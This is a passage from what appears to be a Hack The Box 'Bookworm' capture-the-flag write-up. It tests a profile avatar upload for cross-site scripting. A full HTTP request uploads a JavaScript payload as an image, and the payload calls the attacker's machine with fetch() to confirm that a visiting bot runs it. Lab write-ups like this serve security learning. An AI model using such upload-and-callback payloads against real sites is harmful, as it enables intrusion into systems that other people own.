 Interestingly, when we send the above request, we would get a `base64` encoded cookie which indicates that our avatar is loaded, which might be our XSS point:

<figure><img src="../../.gitbook/assets/image (2688).png" alt=""><figcaption></figcaption></figure>

We can test this first by updating our profile picture with the following request:

```http
POST /profile/avatar HTTP/1.1
Host: bookworm.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------7893868742127952433304288570
Content-Length: 262
Origin: http://bookworm.htb
Connection: close
Referer: http://bookworm.htb/profile
Cookie: session=eyJmbGFzaE1lc3NhZ2UiOnt9LCJ1c2VyIjp7ImlkIjoxNCwibmFtZSI6InRlc3QiLCJhdmF0YXIiOiIvc3RhdGljL2ltZy91c2VyLnBuZyJ9fQ==; session.sig=eNrnjBHPf1vWoX6kzmk2xB4dWdM
Upgrade-Insecure-Requests: 1

-----------------------------7893868742127952433304288570
Content-Disposition: form-data; name="avatar"; filename="test.jpg"
Content-Type: image/jpeg

fetch("http://10.10.14.34/?profilebotcallback")
-----------------------------7893868742127952433304288570--
```

When we refresh our `/profile` page, we can see that our image is located at a certain static directory:

<figure><img src="../../.gitbook/assets/image (2220).png" alt=""><figcaption></figcaption></figure>
